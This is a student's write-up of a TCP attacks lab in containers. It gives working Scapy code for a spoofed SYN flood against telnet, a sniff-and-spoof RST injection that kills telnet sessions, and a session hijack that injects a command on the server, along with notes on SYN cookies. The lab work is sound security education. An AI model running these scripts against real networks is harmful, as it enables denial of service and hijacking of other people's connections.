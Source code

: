 # TCP Attacks Lab - Alex Baron

## Task 1.1: Launching the Attack Using Python

In the container the free port is the telnet port, that is 23. So the final program is the following.

```py
ip = IP(dst='10.9.0.5')
tcp = TCP(dport=23, flags='S')
pkt = ip/tcp
while True:
    pkt[IP].src = str(IPv4Address(getrandbits(32))) 
    pkt[TCP].sport = getrandbits(16) 
    pkt[TCP].seq = getrandbits(32) 
    send(pkt, verbose=0)
```

One instance of the program is enough with a small queue limit (80) and it reaches immediately 60 elements in the queue. We can run different instance of the program if we want to reach the limit faster or with the default maximum queue limit. After running *ip tcp_metrics flush* to remove the mitigation we can see that the telnet connection is unfeasible.

## Task 1.2: Launching the Attack Using C

The *C* program reaches very fast the maximum number of items in the container queue, when this value is set to the default state. Meanwhile with the python program I needed more than one instance of the program running to reach the saturation of the queue when it is in the default state.

In this situation, anyway, the telnet connection is infeasible or it takes several time to be accomplished.

## Task 1.3: Enable the SYN Cookie Countermeasure

In this case the queue fills up but we are able to establish a telnet connection without any problems.

## Task 2: TCP RST Attack on *telnet* Connection

The following code performs the task automatically, sniffing the first packet sent by the client to the server in a *telnet* connection (in my case 10.9.0.5 is the client and 10.9.0.6 is the server), gains the information and send back a spoofed reset packet that closes an opened telnet connection. The correct sequence and ack numbers are fundamental and setting the correct flag as well (“R” for the reset packet).

```py
pkt = sniff(iface="br-c4613239b044", count=1, lfilter=lambda x: x.haslayer(TCP) and x[IP].src == "10.9.0.5")
pkt = pkt[0]
ip = IP(src=pkt[IP].src, dst=pkt[IP].dst)
tcp = TCP(sport=pkt[TCP].sport, dport=pkt[IP].dport, flags="R", seq=pkt[TCP].seq+1, ack=pkt[TCP].ack+1)
p = ip/tcp
send(p, verbose=0, iface="br-c4613239b044")
```

## Task 3: TCP Session Hijacking

In this case the program is quite similar to the previous task. With the following code the *telnet* session between client and server will be hijacked and the command *touch random_file* will be executed in the server. It is also possible to notice that the session is hijacked for the fact that in the terminal it won’t be possible to write anything.

```py
pkt = sniff(iface="br-d5b6ec4e964d", count=1, lfilter=lambda x: x.haslayer(TCP) and x[IP].src == "10.9.0.5")
pkt = pkt[0]
ip = IP(src=pkt[IP].src, dst=pkt[IP].dst)
tcp = TCP(sport=pkt[TCP].sport, dport=pkt[IP].dport, flags="A", seq=pkt[TCP].seq+1, ack=pkt[TCP].ack+1)
data = "\r touch random_file \r"
p = ip/tcp/data
send(p, verbose=0, iface="br-d5b6ec4e964d")
```

After logging back into the container it is possibile to see that the file has actually been created.

![img1](img1.png)
